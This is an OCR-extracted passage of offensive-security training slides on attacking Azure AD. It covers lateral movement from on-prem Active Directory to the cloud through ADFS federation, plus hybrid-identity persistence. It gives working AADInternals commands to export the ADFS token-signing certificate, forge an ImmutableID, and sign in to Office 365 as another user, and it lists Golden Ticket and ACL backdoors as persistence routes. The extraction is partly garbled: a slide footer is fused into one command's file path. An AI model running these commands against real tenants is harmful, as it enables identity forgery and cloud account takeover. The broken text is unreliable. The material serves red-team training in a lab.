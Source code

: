 ```
Note: When setting up the AD FS using Azure AD Connect, there is a difference between IssueURIon
ADFS server and Azure AD. Use the one from AzureAD.
```

### Lateral Movement - Federation - On-Prem to Cloud

* With DA privileges on-prem, we can extract the ADFS token signing certificate from the ADFS server using AADInternals Export-AADIntADFSSigningCertificate
* Use the below command from AADInternals to access cloud apps as the user whose immutableID is specified Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer [http://deffin.com/adfs/services/trust](http://deffin.com/adfs/services/trust) -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx - Verbose

### Lateral Movement - Federation - On-Prem to Cloud

With DA privileges on-prem, it is possible to create ImmutableID of cloud only users with access to Azure AD Connect Sync credentials!

* Create a realistic ImmutableIDand set it for a cloud only user \[System.Convert]::ToBase64String((New-Guid).tobytearray()) Set-AADIntAzureADObject -CloudAnchor "User\_594e67c3-c39b-41bb-ac50- cd8cd8bb780f" -SourceAnchor "pwrtlmsicU+5tgCUgHx2tA=="
* Using AADInternals, export the token signing certificate Export-AADIntADFSSigningCertificate
* Use the below command from AADInternalsto access cloud apps as the user whose immutableIDis specified Open-AADIntOffice365Portal -ImmutableID pwrtlmsicU+5tgCUgHx2tA== - Issuer [http://deffin.com/adfs/services/trust](http://deffin.com/adfs/services/trust) -PfxFileName PentesterAcademy.comC:\users\adfsadmin\DesktopAttacking Azure AD © 2021 Nikhil Mittal. All rights reserved\ADFSSigningCertificate.pfx -Verbose 232

## Learning Objective - 26

* **Instructor only -** Use the credentials for DA of deffin.com that you compromised earlier to extract token-signing certificate from ADFS and access the deffin.com tenant as the user onpremuser.

Part of - Kill Chain - 4 Topics covered -Authenticated Enumeration, Privilege Escalation and On-premto Cloud Lateral Movement

## Persistence

* Like any other system, Azure provides many interesting persistence opportunities.
* Look for persistence, wherever we can modify or create a resource or permission or have an access that is not time limited.

### Persistence - Hybrid Identity - On-Prem to Cloud

* It is recommended by Microsoft to join the Azure AD Connect server to the on-prem AD.
* This means that the persistence mechanisms for on-prem (like Golden Ticket, Silver Ticket, ACL Backdoors and others) that provide us either DA on the on- prem or local admin on the Azure AD connect server will allow to get GA on Azure AD on demand! - For PHS, we can extract the credentials - For PTA, we can install the agent - For Federation, we can extract the certificate from ADFS server using DA

## Persistence - Federation - Trusted Domain
